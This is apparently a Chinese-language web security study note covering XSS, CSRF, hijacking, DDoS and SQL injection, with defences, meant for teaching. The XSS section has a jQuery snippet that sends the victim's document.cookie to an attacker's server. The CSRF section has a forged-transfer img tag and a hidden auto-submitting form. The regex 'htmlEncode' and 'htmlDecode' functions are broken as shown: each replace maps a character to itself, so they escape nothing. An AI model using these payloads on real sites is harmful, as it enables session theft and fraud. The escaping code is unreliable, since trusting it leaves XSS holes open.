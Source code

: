 # 网络安全

- [XSS (Cross Site Scripting) 跨站脚本攻击](#xss-cross-site-scripting-%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB)
- [CSRF/XSRF (Cross-site request forgery) 跨站请求伪造](#csrfxsrf-cross-site-request-forgery-%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0)
- [网络劫持](#%E7%BD%91%E7%BB%9C%E5%8A%AB%E6%8C%81)
- [DDOS 攻击](#ddos-%E6%94%BB%E5%87%BB)
- [SQL 注入](#sql-%E6%B3%A8%E5%85%A5)
- [SQL 防护](#sql-%E9%98%B2%E6%8A%A4)
- [控制台注入代码](#%E6%8E%A7%E5%88%B6%E5%8F%B0%E6%B3%A8%E5%85%A5%E4%BB%A3%E7%A0%81)

## XSS (Cross Site Scripting) 跨站脚本攻击

XSS 是恶意 web 用户将代码植入到提供给其它用户使用的页面中。在web前端方面，可以简单的理解为一种javascript代码注入。

场景：

在某些论坛的评论中，插入了 ajax 代码，在其他人访问该页面时，可以获取他人在当前域名下的 cookie 并发送到的服务器上。

注入代码：
```js
$.ajax({
    url: '自己的服务器',
    dataType: 'jsonp',
    data: {'盗取的用户cookie': document.cookie}
});
```

防范措施：  
1、将前端输出数据都进行转义。  
2、使用 cookie 的 HttpOnly 属性保护好 cookie。  

两种转义和反转义的方式：

```js
var HtmlUtil = {
		/*1.用浏览器内部转换器实现html转码*/
  htmlEncode: function(html) {
    //1.首先动态创建一个容器标签元素，如DIV  
    var temp = document.createElement("div");
    //2.然后将要转换的字符串设置为这个元素的innerText(ie支持)或者textContent(火狐，google支持)  
    (temp.textContent != undefined) ? (temp.textContent = html) : (temp.innerText = html);
    //3.最后返回这个元素的innerHTML，即得到经过HTML编码转换的字符串了  
    var output = temp.innerHTML;
    temp = null;
    return output;
  },
  /*2.用浏览器内部转换器实现html解码*/
  htmlDecode: function(text) {
    //1.首先动态创建一个容器标签元素，如DIV  
    var temp = document.createElement("div");
    //2.然后将要转换的字符串设置为这个元素的innerHTML(ie，火狐，google都支持)  
    temp.innerHTML = text;
    var output = temp.innerText || temp.textContent;
    temp = null;
    return output;
  },
  /*3.用正则表达式实现html转码*/
  htmlEncodeByRegExp: function(str) {
    var s = "";
    if (str.length == 0) return "";
    s = str.replace(/&/g, "&");
    s = s.replace(/</g, "<");
    s = s.replace(/>/g, ">");
    s = s.replace(/ /g, " ");
    s = s.replace(/\'/g, "'");
    s = s.replace(/\"/g, '"');
    return s;
  },
  /*4.用正则表达式实现html解码*/
  htmlDecodeByRegExp: function(str) {
    var s = "";
    if (str.length == 0) return "";
    s = str.replace(/&/g, "&");
    s = s.replace(/</g, "<");
    s = s.replace(/>/g, ">");
    s = s.replace(/ /g, " ");
    s = s.replace(/'/g, "\'");
    s = s.replace(/"/g, "\"");
    return s;
  }
};
```

## CSRF/XSRF (Cross-site request forgery) 跨站请求伪造

CSRF 是利用受信任网站中的一些不安全的提交行为，在你访问黑客的网站时，黑客的网站会盗用了你的身份，以你的名义发送恶意请求到受信任网站上。

要完成一次 CSRF 攻击，受害者必须完成：

- 登录受信任网站 A，并在本地生成 cookie
- 在不登出 A 的情况下，访问危险网站 B

场景：

某银行网站 A，它以 GET 请求来完成银行转账的操作，如：
```html
http://www.mybank.com/transfer.php?toBankId=11&money=1000
```
而某危险网站 B，它页面中含有一段 HTML 代码如下：
```html
<img src=http://www.mybank.com/transfer.php?toBankId=11&money=1000>
```

由于你此前登录银行网站 A 且还未退出，这时候你的浏览器会带上你的银行网站 A 的 Cookie 发出 GET 请求，结果银行服务器收到请求后，认为这是一条合法的更新资源的操作，所以立刻进行转账操作，这样就完成了一次简单的跨站请求伪造。

如果银行使用了 post 请求，危险网站 B 将其页面代码修改了下：
```html
<body onload="steal()">
  <iframe name="steal" display="none">
    <form method="POST" name="transfer"　action="http://www.myBank.com/transfer.php">
      <input type="hidden" name="toBankId" value="11">
      <input type="hidden" name="money" value="1000">
    </form>
  </iframe>
</body>
```

这里危险网站 B 暗地里发送了 POST 请求到银行，通过一个隐藏的自动提交的表单来提交请求，同样地完成了转账操作。

防范措施：

- 1、避免数据操作类的行为使用 get 请求，只接受 POST 请求。
- 2、使用需要用户进行互动的验证码。
- 4、使用随机的 Token，使攻击者无法准确预测。
- 3、检测 Referer（Referer：告诉服务器我是从哪个页面链接过来的）。

## 网络劫持

很多的时候，我们的网站不是直接就访问到我们的服务器上的，中间会经过很多层代理，如果在某一个环节，数据被中间代理层的劫持者所截获，他们就能获取到使用你网站的用户的密码等保密数据。  
比如，我们的用户经常会在各种饭馆里面，连一些奇奇怪怪的wifi，如果这个wifi是黑客所建立的热点wifi，那么黑客就可以结果该用户收发的所有数据。

建议站长们网站都使用https进行加密。这样，就算网站的数据能被拿到，黑客也无法解开。

## DDOS 攻击

分布式拒绝服务(DDoS:Distributed Denial of Service)攻击指借助于客户/服务器技术，将多个计算机联合起来作为攻击平台，对一个或多个目标发动DDoS攻击，从而成倍地提高拒绝服务攻击的威力。

DDOS 攻击利用目标系统网络服务功能缺陷或者直接消耗其系统资源，使得该目标系统无法提供正常的服务。

DDoS 攻击通过大量合法的请求占用大量网络资源，以达到瘫痪网络的目的。 具体有几种形式：

- 通过使网络过载来干扰甚至阻断正常的网络通讯；
- 通过向服务器提交大量请求，使服务器超负荷；
- 阻断某一用户访问服务器；
- 阻断某服务与特定系统或个人的通讯。

## SQL 注入

所谓 SQL 注入，就是通过把 SQL 命令插入到 Web 表单提交或页面请求的查询字符串，最终达到向服务器执行恶意的 SQL 命令。

## SQL 防护

- 永远不要信任用户的输入: 对用户的输入进行校验，可以通过正则表达式，或限制长度；对单引号和双"-"进行转换等。
- 永远不要使用动态拼装 SQL，可以使用参数化的 SQL 或者直接使用存储过程进行数据查询存取。
- 永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接。
- 不要把机密信息直接存放，加密或者 hash 掉密码和敏感的信息。

## 控制台注入代码

黑客会诱骗用户去往控制台里面粘贴代码，获取用户的信息。

See Also

[聊一聊WEB前端安全那些事儿](https://segmentfault.com/a/1190000006672214)  
[谈谈对 Web 安全的理解](https://juejin.im/entry/58bad941128fe100643fb35b)  
[JS对HTML字符的转义和反转义](https://blog.csdn.net/u013026207/article/details/53994032)  
